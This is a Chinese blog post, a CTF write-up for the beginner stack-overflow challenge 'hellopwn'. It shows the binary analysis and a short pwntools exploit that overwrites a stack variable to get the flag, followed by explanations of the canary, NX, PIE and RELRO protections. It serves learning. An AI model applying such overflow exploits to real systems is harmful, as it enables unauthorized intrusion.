





<!--yml
category: 未分类
date: 2022-04-26 14:35:56
-->

# CTF|栈溢出入门题hellopwn解题思路_一个不融化的雪人的博客-CSDN博客_pwn解题思路

> 来源：[https://blog.csdn.net/skyattractive/article/details/106463079](https://blog.csdn.net/skyattractive/article/details/106463079)

# CTF|栈溢出入门题hellopwn解题思路及个人总结

## 解题思路

将题目下载下来后拖入虚拟机ubuntu中，利用`checksec hellopwn`
查到有关文件保护信息 NX enabled 表示这个文件NX保护已经打开（个人总结会写各种保护）


输入`./hellopwn`命令行将文件运行 走一边流程，发现程序很简单

拖入IDA

按照往常一样去找栈溢出的地方，这里我们找到了`read`这个函数，读入10个字节
（伪代码中一些函数和变量的名字我自行修改了，方便观看）
题意很明显，我们只需让`v2`等于1853186401就可以得到flag
双击v1
我们看看`v1``v2`在栈中的位置，可以看出他们相差`4`，我们可以填充四个数据将`v2`的值覆盖为1853186401 得到flag。

编写exp

```
from pwn import*
p = remote('124.126.19.106',30444)

payload = 'aaaa' + p64(1853186401)

p.recvuntil("lets get helloworld for bof")
p.send(payload)

p.interactive() 
```

运行exp得到flag


## 个人总结

### 有关checksec中的各种保护机制

1.  **CANNARY/STACK保护**
    这种保护机制叫做栈溢出保护，他是一种**缓冲区溢出攻击缓解手段**，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里**插入cookie信息**，当函数真正返回的时候会**验证cookie信息是否合法**，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会**将cookie信息给覆盖掉**，导致栈保护检查失败而阻止shellcode的执行。
2.  **NX保护**
    NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
    简单的说就是，在溢出后转入shellcode时，程序让jmp的跳转指令禁止执行，从而保护。
3.  **PIE（ASLR）**
    即内存地址随机化保护机制，作用是：程序**每次运行的时候地址都会变化**，而如果没有开PIE的话那么No PIE (0x400000)括号内的数据就是程序的基地址
    这种保护可以防范基于Ret2libc方式的针对DEP的攻击。ASLR和DEP配合使用，能有效阻止攻击者在堆栈上运行恶意代码。
4.  **RELRO**
    RELRO叫做会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们**无法修改got表**，从而减少对GOT（Global Offset Table）攻击。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）